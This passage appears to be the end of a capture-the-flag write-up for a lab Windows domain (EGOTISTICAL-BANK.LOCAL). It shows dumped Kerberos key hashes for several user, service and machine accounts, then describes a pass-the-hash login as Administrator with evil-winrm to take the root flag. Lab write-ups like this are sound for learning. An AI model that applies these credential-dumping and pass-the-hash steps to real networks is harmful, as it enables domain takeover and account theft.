EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:10829c15fb61db9307c7f25b01779031e57caf49a26f3ba85e81a80eedfee335
SAUNA$:aes128-cts-hmac-sha1-96:3a691811fb65c1156f5e2ea822736dc9
SAUNA$:des-cbc-md5:83b5688ad992abf4
[*] Cleaning up... 
```

- We can now connect as Administrator with the hash `823452073d75b9d1cf70ebdf86c7f98e` using evil-winrm
- We can grab the root flag  

